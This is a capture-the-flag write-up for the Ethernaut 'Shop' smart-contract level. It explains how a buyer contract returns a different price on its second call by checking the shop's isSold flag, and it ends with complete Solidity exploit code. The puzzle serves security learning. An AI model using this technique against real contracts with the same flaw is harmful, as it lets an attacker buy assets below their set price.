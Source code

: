 # Level 20: [Shop](https://ethernaut.openzeppelin.com/level/0xCb1c7A4Dee224bac0B47d0bE7bb334bac235F842)

## Level objectives:
Buy the thing for a lower price.
## Analysis
- The contract calling `_buyer.price()` twice. Once to check if the buyer's price is greater than the set price; and the second time to set the price.
```sol
if (_buyer.price() >= price && !isSold) {
  isSold = true;
  price = _buyer.price();
}
```
- So we return different prices for diff calls.
- How do we distinguish between which call?.
- We can't use state variables to store number of calls, cuz our func needs to be `view`.
- So we call the victim contract to see if the object `isSold`.
- Since it's sets the `isSold` variable before setting the price, we can fool it.

## Code:
```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Shop {
    function buy() external;
    function isSold() view external returns (bool);
}

contract Buyer {
    function attack() public {
        Shop(0x222533E9e1337FC7160f11e668ba7f014D5D75fc).buy();
    }

    function price() view external returns (uint) {
        if (Shop(msg.sender).isSold()) {
            return 50;
        }
        return 100;
    }
}
```

